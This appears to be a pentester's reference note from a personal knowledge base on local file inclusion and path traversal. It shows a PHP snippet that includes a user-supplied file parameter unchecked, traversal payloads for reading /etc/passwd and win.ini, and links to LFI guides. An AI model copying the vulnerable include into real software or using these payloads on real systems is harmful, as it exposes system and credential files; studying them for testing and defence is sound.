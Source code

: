 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Detection

Navigating directories

### Linux

```
../../../etc/passwd
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

---
## References

### Backlinks

- [[Path Traversal Payloads|Path Traversal Payloads]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xF - Log Files/Manual/Living off the Land|Log Files]]

### Payloads All The Things

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

### SecurityIdiots

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

### Bordergate

- [Bordergate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)